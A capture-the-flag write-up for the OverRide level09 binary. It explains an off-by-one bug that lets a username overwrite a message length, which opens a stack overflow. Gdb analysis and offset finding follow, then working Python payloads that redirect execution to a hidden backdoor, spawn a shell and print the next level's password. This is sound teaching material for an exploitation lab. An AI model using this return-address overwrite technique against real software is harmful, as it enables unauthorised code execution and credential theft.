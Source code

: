 # level09

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

```console
level09@OverRide:~$ checksec --file ./level09
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   ./level09
```

From our analysis of the program, here are the different steps performed:

- The `main` function calls `handle_msg` which declares a structure containing a 40 bytes buffer we will call
  `username`, another one of 140 bytes, `msg`, and an integer, `msglen`, set to 140.
- The structure address is sent to `set_username` which fills an intermediate buffer of 128 bytes thanks to a `fgets`
  call on the standard input, then uses a `for` loop that copies 41 characters from the intermediate buffer to
  `username`. A programming error is present here and opens a vulnerability. Indeed, the `username` variable is an array
  of 40 characters but the `for` loop goes through 41 characters, allowing us to overwrite one byte of the next
  structure's variable `msglen`.
- The next function called `set_msg` is similar to `set_username`: a buffer of 1024 bytes is filled with `fgets`, then
  copied to `msg` via `strncpy` with the `msglen` variable as its size parameter. Since we know we can overwrite one
  byte of `msglen` value, we will try to reach the return address pointer of `handle_msg` by copying enough bytes.

According to `checksec` output, we can't execute code from the stack, hopefully a hidden function `secret_backdoor` has
been declared.

```gdb
gdb-peda$ pd secret_backdoor
Dump of assembler code for function secret_backdoor:
   0x000055555555488c <+0>:     push   rbp
   0x000055555555488d <+1>:     mov    rbp,rsp
   0x0000555555554890 <+4>:     add    rsp,0xffffffffffffff80
   0x0000555555554894 <+8>:     mov    rax,QWORD PTR [rip+0x20171d]
   0x000055555555489b <+15>:    mov    rax,QWORD PTR [rax]
   0x000055555555489e <+18>:    mov    rdx,rax
   0x00005555555548a1 <+21>:    lea    rax,[rbp-0x80]
   0x00005555555548a5 <+25>:    mov    esi,0x80
   0x00005555555548aa <+30>:    mov    rdi,rax
   0x00005555555548ad <+33>:    call   0x555555554770 <fgets@plt>
   0x00005555555548b2 <+38>:    lea    rax,[rbp-0x80]
   0x00005555555548b6 <+42>:    mov    rdi,rax
   0x00005555555548b9 <+45>:    call   0x555555554740 <system@plt>
   0x00005555555548be <+50>:    leave
   0x00005555555548bf <+51>:    ret
End of assembler dump.
```

This function calls `fgets` to fill a buffer of 128 characters from the standard input, then uses it as a command sent
to `system`.

## Exploit

Since the binary has been compiled in 64-bit, we need to find the right offset to overwrite the content of the stack
pointer RSP (not the EIP/RIP) in order to make `handle_msg` jump to `secret_backdoor` instead of returning to `main`.

To do so, We prepare the following string : 40 characters + the bigger one-byte value (0xff or 255) to overwrite
`msglen` value and make `strncpy` go as far as we can + a newline character to end the first `fgets` + a string of 256
characters generated via this [buffer overflow string
generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) that supports 64-bit registers.

```console
level09@OverRide:~$ python -c 'print "A" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4A"' > /tmp/level09
```

```gdb
gdb-peda$ r < /tmp/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0xd ('\r')
RBX: 0x0
RCX: 0x7ffff7b01f90 (<write+16>:	cmp    rax,0xfffffffffffff001)
RDX: 0x7ffff7dd5a90 --> 0x0
RSI: 0x7ffff7ff7000 (">>: >: Msg sent!\n", 'A' <repeats 39 times>"\377, >: Msg @Unix-Dude\n")
RDI: 0xffffffff
RBP: 0x6741356741346741 ('Ag4Ag5Ag')
RSP: 0x7fffffffe5c8 ("6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4")
RIP: 0x555555554931 (<handle_msg+113>:	ret)
R8 : 0x7ffff7ff7004 (">: Msg sent!\n", 'A' <repeats 39 times>"\377, >: Msg @Unix-Dude\n")
R9 : 0xc ('\x0c')
R10: 0x21 ('!')
R11: 0x246
R12: 0x555555554790 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe6b0 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x555555554924 <handle_msg+100>:	lea    rdi,[rip+0x295]        # 0x555555554bc0
   0x55555555492b <handle_msg+107>:	call   0x555555554730 <puts@plt>
   0x555555554930 <handle_msg+112>:	leave
=> 0x555555554931 <handle_msg+113>:	ret
   0x555555554932 <set_msg>:	push   rbp
   0x555555554933 <set_msg+1>:	mov    rbp,rsp
   0x555555554936 <set_msg+4>:	sub    rsp,0x410
   0x55555555493d <set_msg+11>:	mov    QWORD PTR [rbp-0x408],rdi
```

We provide the RBP address `0x6741356741346741` to our tool, then add 8 to the result to reach the RSP content offset,
200.

Now, we get the `secret_backdoor` address with gdb. Note that the program must have been started to get the right
address after the dynamic relocation.

```gdb
gdb-peda$ info function secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```

From here we have everything we need to perform the exploit. Let's generate our final string, composed of three parts :

- In first, we copy the same string as the previous one we have used to fill the first `fgets` call and overwrite
  `msglen` value, but we may change this value to match exactly the needed size, 200 + 8 bytes (for the address itself),
  so 0xd0 in hexadecimal.
- Then, 200 characters to reach the offset, the `secret_backdoor` address which will overwrite the content of RSP, and a
  newline character to stop the second `fgets` reading.
- Finally, if everything works as expected, we will jump to `secret_backdoor` which uses a third `fgets` to get the
  command to send to `system`, so we just add `"/bin/sh"`. Here we go!

```console
python -c 'print "A" * 40 + "\xd0" + "\n" + "A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh"' > /tmp/level09
level09@OverRide:~$ cat /tmp/level09 - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
